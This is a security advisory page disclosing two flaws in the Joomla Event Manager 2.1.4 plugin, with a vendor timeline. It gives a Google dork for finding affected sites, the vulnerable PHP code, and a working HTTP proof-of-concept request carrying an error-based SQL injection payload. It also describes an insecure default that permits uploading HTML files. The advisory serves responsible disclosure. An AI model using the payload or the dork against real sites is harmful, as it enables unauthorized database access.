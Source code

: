 ```yaml
---
layout: default
title:  "Joomla Event Manager 2.1.4 - Multiple Vulnerabilities"
date:   2017-08-10 20:00:00
categories: joomla jem
preview: "A couple of security issues in Joomla Event Manager plugin, JEM 2.1.4."
---
```


{{ page.title }}
================

* _Author_: Martino Sani
* _Release date_: 2015-08-12
* _Vendor Homepage_: www.joomlaeventmanager.net
* _Software Link_: www.joomlaeventmanager.net/download?download=50:jem-2-1-4-stable
* _Version_: 2.1.4
* _Google Dork_: inurl:option=com_jem
* _Exploit-DB_: www.exploit-db.com/exploits/37767/
* _CVE_: -

I identified some vulnerabilities and insecure settings in Joomla Event Manager plugin, JEM 2.1.4. A malicious user could use these issues to access back-end database data and attack application clients. Attacker must have valid authentication credentials to exploit these issues.

## SQL Injection

Authenticated user can execute arbitrary SQL queries via SQL injection in the functionality that allows to publish/unpublish an event. Vulnerable resource is *index.php?option=com_jem&view=myevents* and the injection point is *cid* parameter.

```
// sites/models/myevents.php
function publish($cid = array(), $publish = 1)
{
    if (is_array($cid) && count($cid)) {
        $cids = implode(',', $cid);

	$query = 'UPDATE #__jem_events'
               . ' SET published = '. (int) $publish
               . ' WHERE id IN ('. $cids .')'
               . ' AND (checked_out = 0 OR (checked_out = ' .$userid. '))';

        $this->_db->setQuery($query);
    }
}
```

POC
```
POST /joomla3.4.3/index.php?option=com_jem&view=myevents&Itemid=151 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Cookie: 55cfbe406ffe44b0159d9a943820d207=gauuoq0rqlakkltqj4dd1mpd76; jpanesliders_stat-pane=0; jpanesliders_event-sliders-10=2; d6300469df4ad94ccc019d02bc74f647=4339lu3g2tn4lhg2lvgd8ft263
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 352

filter=1&filter_search=&limit=10&cid%5B%5D=1,2)%20AND%20(SELECT%206959%20FROM(SELECT%20COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.TABLES%20GROUP%20BY%20x)a)%20AND%20(1577=1577&filter_order=a.dates&filter_order_Dir=&enableemailaddress=0&boxchecked=1&task=myevents.unpublish&option=com_jem&5c597c6e06b1d6627024f147b562ecaf=1
```

## Insecure File Upload

Default JEM settings allow to upload HTML/HTM files as event's attachment. An authenticated attacker could upload malicious HTML/HTM files with malicious code (e.g. Javascript). These attachments could be reachable on *<<website>>/media/com_jem/attachments/event/event[id]/* or downloaded and executed locally by the victim's browser.

Attachments process is handled by */site/classes/attachments.class.php* file.

File types allowed by default are in the */admin/sql/install.mysql.utf.sql* file.

## Timeline

* 2015-08-01: Vendor notification.
* 2015-08-12: Vendor fixes the issues in the development branch.
	
The author is not responsible for the misuse of the information provided in this advisory.